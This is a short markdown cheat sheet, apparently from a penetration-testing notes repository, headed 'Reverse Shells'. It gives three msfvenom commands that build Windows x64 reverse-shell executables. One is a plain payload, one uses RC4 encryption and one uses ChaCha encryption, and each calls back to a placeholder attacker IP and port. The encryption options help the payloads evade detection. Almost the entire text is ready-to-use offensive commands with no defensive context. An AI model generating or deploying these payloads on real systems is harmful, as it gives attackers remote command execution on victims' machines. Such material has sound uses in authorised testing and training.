 # Reverse Shells

## 01 - x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f exe -o shell-x64.exe

$ msfvenom -p windows/x64/shell_reverse_tcp_rc4 lhost=<IP> lport=<PORT> rc4password="<KEY>" -f exe -o shell-x64.exe
```

You can encrypt the payload.

```
$ msfvenom -p windows/x64/encrypted_shell_reverse_tcp chachakey=1234567890abcdef1234567890abdcef chachanonce=1234567890ab lhost=<IP> lport=<PORT> -f exe -o shell-enc-x64.exe
```